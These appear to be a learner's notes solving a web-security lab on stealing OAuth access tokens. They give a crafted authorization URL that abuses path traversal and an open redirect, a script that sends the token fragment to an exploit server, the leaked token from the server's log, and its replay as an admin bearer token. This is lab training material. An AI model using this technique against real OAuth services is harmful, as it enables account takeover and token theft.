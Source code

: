 3.
    https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit

    avengers assamble!:
    https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=
    https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback
    /../post/next?path=
    https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit
    &response_type=token&nonce=884658517&scope=openid%20profile%20email

final payload:
    https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit&response_type=token&nonce=884658517&scope=openid%20profile%20email


script to load the window as a page:

    <script>
    if (!document.location.hash) {
    window.location = 'payload'
    } else {
    window.location = '/?'+document.location.hash.substr(1)
    }
    </script>

the script checks for hash presence and puts all fragments (minus the 0 index char = #) after a /? to make it a logged param so our server can see it in the access log

explanation about the script:
https://youtu.be/grkMW56WX2E?t=447



    <script>
    if (!document.location.hash) {
    window.location = 'https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit&response_type=token&nonce=884658517&scope=openid%20profile%20email'
    } else {
    window.location = '/?'+document.location.hash.substr(1)
    }
    </script>


check exploit server log - find leaked infornation:

    10.0.4.166      2022-07-29 17:38:12 +0000 "GET /?access_token=ZHvzcAGdTG-rdfXAsZXbBpiuNAQq0L_F5C70CgGBwbB&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36"


search for bearer in request or apikey in respnses observe /me request with access token in Authorization header - change token to leaked admin token:
    GET /me HTTP/1.1
    ..
    Authorization: Bearer ZHvzcAGdTG-rdfXAsZXbBpiuNAQq0L_F5C70CgGBwbB
